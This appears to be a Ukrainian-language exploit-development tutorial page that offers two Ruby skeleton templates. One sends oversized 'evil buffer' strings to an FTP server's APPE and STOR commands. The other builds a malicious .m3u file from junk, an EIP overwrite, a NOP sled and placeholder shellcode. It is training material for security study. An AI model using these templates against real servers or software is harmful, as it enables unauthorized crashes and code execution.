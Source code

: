 # Модуль 0x5 | Експлуатаційне Кунг-фу

## Основа експлойту

Мати під рукою скелетон експлойту є дуже правильною ідеєю, оскільки такий скелетон можна в будь-який момент швидко застосувати під час атаки.

### Базовий код для мереж 

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'

buffer = "A" * 2000

#--> Networking
host = ARGV[0]
port = ARGV[1] || 21

s = TCPSocket.open(host, port)
s.recv(1024)
puts "[+] Sending Username."
s.send("USER ftp\r\n", 0)
s.recv(1024)
puts "[+] Sending Password."
s.send("PASS ftp\r\n", 0)
s.recv(1024)
puts "[+] Sending Evil buffer..."
s.send("APPE " + buffer + "\r\n", 0)
total = s.send("STOR " + buffer + "\r\n", 0)
#--> Exploit Info
puts "[+] " + "Total exploit size: " + "#{total} bytes."
puts "[+] " + " Buffer length: " + "#{buffer.size} bytes."
puts "[+] Done"

s.close
```
Аби запустити, виконайте наступну команду:
```
ruby ftp_exploit.rb [TARGET] [PORT]
```
Зверніть увагу на те, що деякі сервіси мають отримувати данні зі скрипта, а деякі ні.

### Простий базовий файл для експлойту

Створення простого простого файду для експлойту. 

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI

file = ARGV[0] || "exploit.m3u"

junk  = "A" * 2000
eip   = "B" * 4
nops  = "\x90" * 8
shell = "S" * 368
exploit = junk + eip + nops + shell

File.open(file, 'w') {|f| f.write(exploit)}
puts "[*] Exploit size: #{exploit.size}"
```
Аби запустити, виконайте наступну команду:
```
ruby m3u_exploit.rb song1.m3u
```

<br><br><br>
---
